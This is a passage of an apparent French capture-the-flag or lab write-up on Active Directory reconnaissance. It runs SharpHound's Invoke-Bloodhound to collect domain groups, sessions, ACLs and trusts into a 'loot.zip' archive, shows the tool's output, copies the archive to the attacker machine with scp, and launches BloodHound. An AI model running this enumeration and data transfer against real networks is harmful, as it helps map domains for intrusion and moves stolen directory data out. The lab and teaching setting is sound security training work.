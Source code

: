 #### Collecte de données avec SharpHound

SharpHound est déjà présent sur la machine cible. Lançons la collecte :

```powershell
PS C:\Users\Administrator> . .\Downloads\SharpHound.ps1
PS C:\Users\Administrator> Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip

------------------------------------------------
Initializing SharpHound at 5:50 AM on 10/18/2025
------------------------------------------------

Resolved Collection Methods: Group, Sessions, LoggedOn, Trusts, ACL, ObjectProps, LocalGroups, SPNTargets, Container

[+] Creating Schema map for domain CONTROLLER.LOCAL using path CN=Schema,CN=Configuration,DC=CONTROLLER,DC=LOCAL
[+] Cache File not Found: 0 Objects in cache

[+] Pre-populating Domain Controller SIDS
Status: 0 objects finished (+0) -- Using 113 MB RAM
Status: 66 objects finished (+66 66)/s -- Using 118 MB RAM
Enumeration finished in 00:00:01.2296558
Compressing data to C:\Users\Administrator\20251018055052_loot.zip
You can upload this file directly to the UI

SharpHound Enumeration Completed at 5:50 AM on 10/18/2025! Happy Graphing!
```

---

#### Transfert du fichier loot.zip

**Utilisation de SCP pour transférer le fichier vers la machine attaquante :**

```bash
root@ip-10-10-246-65:~# scp Administrator@10.10.52.67:20251018055052_loot.zip 20251018055052_loot.zip
Administrator@10.10.52.67's password:
20251018055052_loot.zip                                  100%  8532   1.2MB/s   00:00
```

> La commande `scp` s'exécute depuis la machine attaquante, pas depuis la session SSH cible.
{: .prompt-tip }

---

#### Analyse avec Bloodhound

**Lancement de Bloodhound sur la machine attaquante :**

```bash
root@ip-10-10-246-65:~# bloodhound
```
